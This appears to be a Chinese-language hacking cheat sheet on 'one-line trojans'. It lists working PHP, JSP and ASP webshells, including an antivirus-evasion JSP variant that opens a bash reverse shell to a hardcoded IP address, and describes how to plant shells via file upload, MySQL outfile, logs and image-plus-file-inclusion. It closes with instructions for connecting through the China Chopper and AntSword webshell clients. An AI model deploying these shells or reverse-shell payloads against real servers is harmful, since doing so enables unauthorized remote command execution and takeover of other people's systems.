 ## **0x01. 一句话木马**
PHP一句话木马
可以在目标服务器上执行PHP代码,并和客户端(如菜刀、Cknife、冰蝎、蚁剑）配合getshell，俗称小马
^
php如果没有禁用一些函数
eval(x)      5<php<7.2默认开启
assert(x)   php<7.0默认开启
```
上传.php文件：
<?php eval('system(whoami);'); ?>
<?php eval($_GET[1]); ?>


PHP5.x版本中可以使用
<script language="php">@eval($_POST["pass"])</script>
<?= @eval($_POST['hack']); ?>


php5-7
<?php @eval($_POST['attack']);?>
<?php @eval($_POST['1']);?>
@错误不报
php5
<?php assert($_GET['1']); ?>


<?php 
error_reporting(0);//不报错
highlight_file(__FILE__);
var_dump($_REQUEST['1']);
eval($_REQUEST['1']);
 ?>
访问?1=system('ls /');

<?php echo phpinfo(); ?>
<?php system($_GET['2']);?>
```


^
```
jsp:
<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>

传x和i
<% if("x".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");
} %>


一行
<% if("x".equals(request.getParameter("pwd"))){java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");} %>

免杀
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
    Class clazz = com.sun.org.apache.xalan.internal.utils.ObjectFactory.findProviderClass("java.lang.Run" + "time", true);
    java.lang.reflect.Method m1 = com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory.getMethod(clazz, "getRun"+"time", null);
    java.lang.reflect.Method m2 = com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory.getMethod(clazz, "ex"+"ec", String[].class);
    Object o = com.sun.xml.internal.bind.v2.ClassFactory.create(m1);
    new com.sun.xml.internal.ws.spi.db.MethodSetter(m2).set(o,new String[]{"/bin/sh","-c","bash -i >& /dev/tcp/121.5.169.223/39767 0>&1"});
%>
```

```
asp:
<%eval request("cmd") %>
```
aspx：<https://www.cnblogs.com/donglian1/p/13942742.html>

其他常见一句话木马：<https://www.cnblogs.com/ash-33/p/16397536.html>


^
## **0x02. 木马注入方式**

### **1**. 以文件的形式上传到服务器端
上传文件可以利用MySQL的into outfile、表单文件上传等方式上传

### **2**. 以字符串的形式上传到服务器端
通过MySQL的日志方式、shell的echo方式、命令执行、反序列化等方式写入一句话代码，可写入新文件或者已存在的页面

### **3**.图片马+文件包含漏洞
通过上传图片马，结合文件包含漏洞上传webshell;


^
## **0x03. getshell**
上传一句话木马后，找到文件上传的地址

1. 中国蚁剑
设置的入口为eval($_POST["密码"];);，必须为eval的post。
使用中国蚁剑，右击加链接，连接密码(POST参数名)
getshell
双击进行文件管理
右击可选择终端界面
蚁剑可配置代理查看每次请求包
^
2. 中国菜刀
设置的入口为assert($_GET),assert($_POST)。